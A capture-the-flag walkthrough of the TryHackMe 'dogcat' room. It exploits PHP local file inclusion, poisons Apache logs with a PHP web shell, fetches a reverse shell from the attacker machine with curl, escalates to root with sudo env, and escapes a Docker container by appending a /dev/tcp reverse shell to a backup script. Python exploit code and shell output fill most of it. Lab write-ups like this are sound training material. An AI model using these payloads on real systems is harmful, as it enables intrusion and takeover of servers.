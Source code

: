 # dogcat

**Room link:** https://tryhackme.com/room/dogcat

Well, the summary gives most of it away: _Exploit a PHP application via LFI and break out of a docker container._

1. `nmap` reveals SSH (actually useless) and HTTP services on standard ports.

2. The HTTP server hosts a page `http://$TARGET_IP/?view=cat` or `?view=dog` showing pictures of cats or dogs. Playing around a bit with the `view` parameter, we discover:
  * it must contain `cat` or `dog` to be accepted;
  * the PHP backend code seems to directly include `$_GET['view'].'.php'` (thus allowing LFI and maybe RFI):

```
$ curl "http://$TARGET_IP/?view=this/is/a/cat/test"
(...) Warning: include(this/is/a/cat/test.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24 (...)
```

  * RFI does not seem to be possible:

```
$ curl "http://$TARGET_IP/?view=http://10.9.***.***:8000/catshell"
(...) Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/index.php on line 24 (...)
```

  * also the [null byte technique](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#null-byte) does not work here to neutralize the additional `.php` extension.

 3. Let us start by retrieving the `index.php` file. We use the `php://filter` [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers) to encode it in base 64 in order for it not to be interpreted.

```python
import requests, base64, re

URL  = 'http://10.10.***.***/'
WRAP = 'php://filter/convert.base64-encode/resource='
retrieve_data = lambda html: re.search(r'go!(.+)[ <]', html).group(1)

req = requests.get(URL, params={'view': WRAP+'cat/../index'})
index_php = base64.b64decode(retrieve_data(req.text)).decode()
print(index_php)
```

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

So the script only appends `.php` if the `ext` parameter is not given!

4. We can now request `/etc/passwd` (for instance) but this does not help... Let us retrieve the Apache logs:

```python
req = requests.get(URL, params={'view': WRAP+'cat/../../../../var/log/apache2/access.log', 'ext': ''})
apache_log = base64.b64decode(retrieve_data(req.text)).decode()
print(apache_log)
```

We notice that these logs contain the HTTP headers `Referer` and `User-Agent` in plaintext (between `"..."`).

5. Inject a simple PHP web shell. **Note** that we will **not** be able to **modify or delete** what we inject at this point, hence it is more reasonable to go for something as simple and reliable as possible while still allowing us to do whatever we want afterwards.

```python
requests.get(URL, headers={'User-Agent': "#L#<?php system($_GET['cmd']); ?>#R#"})
```

Now including the logs without the wrapper will interpret the injected code. We use `#L#` and `#R#` as delimiters to easily retrieve the result of the command (we will not actually use it much though):

```python
def run_cmd(cmd):
    req = requests.get(URL, params={'view': 'cat/../../../../var/log/apache2/access.log', 'ext': '', 'cmd': cmd})
    if req:
        html = req.text
        return re.search(r'\#L\#(.*)\#R\#', html, re.DOTALL).group(1)

print(run_cmd('whoami'))
```

**Note** that we cannot directly invoke a bash reverse shell (the connection is immediately closed).

6. Prepare a PHP reverse shell `shell.php` (port 4444 here). Start a HTTP server `python3 -m http.server` (port 8000 here) in the same directory. Upload the reverse shell.

```python3
run_cmd('curl http://10.9.***.***:8000/shell.php > shell.php')
```

Get in and grab the **flags 1 & 2** (easy to find).

```
$ nc -lnvp 4444    
Listening on 0.0.0.0 4444
Connection received on 10.10.***.*** 48454
Linux e62e65052c25 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 14:31:47 up  2:56,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag2_QMW7JvaY2LvK.txt
**REDACTED**
$ cat /var/www/html/flag.php
<?php
$flag_1 = "THM{**********REDACTED***********}"
?>
```

7. Escalate and grab the **flag 3**.

```
$ sudo -l
Matching Defaults entries for www-data on 0bebda29cdf5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 0bebda29cdf5:
    (root) NOPASSWD: /usr/bin/env
$ sudo env bash
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag3.txt    
**REDACTED**
```

8. We know we are in a container and guess that the last flag must be outside. Escape by injecting a reverse shell in what seems to be a backup script.

```
cd /opt/backups
ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Jan  8 14:47 backup.tar
echo 'bash -i >& /dev/tcp/10.9.***.***/4242 0>&1' >> backup.sh
```

Wait a minute. Get out and grab the **flag 4**.

```
$ nc -lnvp 4242
Listening on 0.0.0.0 4242
Connection received on 10.10.***.*** 33190
bash: cannot set terminal process group (2131): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# cat flag4.txt
**REDACTED**
```
